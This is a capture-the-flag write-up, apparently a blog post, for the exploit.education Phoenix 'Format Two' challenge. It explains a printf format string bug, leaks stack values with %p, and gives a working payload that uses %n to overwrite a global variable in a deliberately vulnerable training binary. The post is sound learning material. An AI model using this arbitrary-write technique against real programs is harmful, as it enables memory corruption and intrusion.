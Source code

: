 ```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x2"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Format 2

Write-up for: [https://exploit.education/phoenix/format-two/](Format Two)

<!--more-->

This challenge requires us to overwrite a global integer variable `changeme`.

# The bug

Again, the buf is providing user input as the format string to `printf`. This time,
input is provided via `argv[1]` and `printf` is wrapped in a function.

# The exploit

The goal is to write data to a specific address. In order to turn a format string bug into an arbitrary write primitive is by using the `%n` format specifier, which, according to the `printf` `man` page does the following: 

```
The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted.
```

So a legitimate use of this specified would be the following:

```C
int numCharsWritten = 0;
printf("Hello World%n", &numCharsWritten);
printf("Number of chars written: %d", numCharsWritten);
```

This code snippet will print out the number of characters written until the `%n` specifier. In order for this to work, `printf` pops the argument from the stack an interprets it as an address. If there is no argument, it just pops the next value of the stack.

To turn this into an arbitrary write, we need a way to provide the value on the stack. Luckily for us, our input string is also stored on the stack, so in order to write to any address, we just need to start our input string with the address we want to write to.

Now we know that the target address is on the stack. However, it is not the first value on the stack (since it is in a different frame). Thus, we first need to figure out the offset of our format string. This can be done by abusing the format string bug to print out the content of the stack:

```
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two "AAAA %p %p %p %p %p %p %p %p %p %p %p %p"
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAA 0xffffd75d 0x100 0 0xf7f84b67 0xffffd5a0 0xffffd588 0x80485a0 0xffffd480 0xffffd75d 0x100 0x3e8 0x41414141Better luck next time!
```

As we can see, the `0x41414141` representing the beginning of our string is the 12th value. This means we need to trick printf into thinking the parameter for `%n` comes at the 12th position. On some platforms, you can use the `%NUMBER` modifier to select a specific argument for the subsequent modifier:

```
printf("AAAA%12$p");
```

However, this fails in our case:

```
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two "AAAA %12$p"
Welcome to phoenix/format-two, brought to you by https://exploit.education
Better luck next time!
```

Alternatively, since we have enough space in our buffer, we can just provide 12 arguments:

```
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two "AAAA %p %p %p %p %p %p %p %p %p %p %p %n"
Welcome to phoenix/format-two, brought to you by https://exploit.education
Segmentation fault
```

Looks like we're writing to memory! Let's use some address that we can write to:

```
user@phoenix-amd64:/opt/phoenix/i486$ objdump -t format-two | grep changeme
08049868 g     O .bss   00000004 changeme

user@phoenix-amd64:/opt/phoenix/i486$ ./format-two `python -c 'print "\x08\x04\x98\x68"[::-1] + "%p"*11 + "%n"'`
Welcome to phoenix/format-two, brought to you by https://exploit.education
0xffffd7690x10000xf7f84b670xffffd5a00xffffd5880x80485a00xffffd4800xffffd7690x1000x3e8Well done, the 'changeme' variable has been changed correctly!
```

Done :)! To recap, we're looking up the address of the global changeme variable using `objdump`. Then, for our format string, we provide the address as the beggining of our string. Then we pop 4-byte values from the stack using the `%p` specifier until we reach our input (the 12th value). As the last specifier we use `%n` which writes the number of characters written so far to the address specified in the argument. In our case, that's the address of `changeme`.

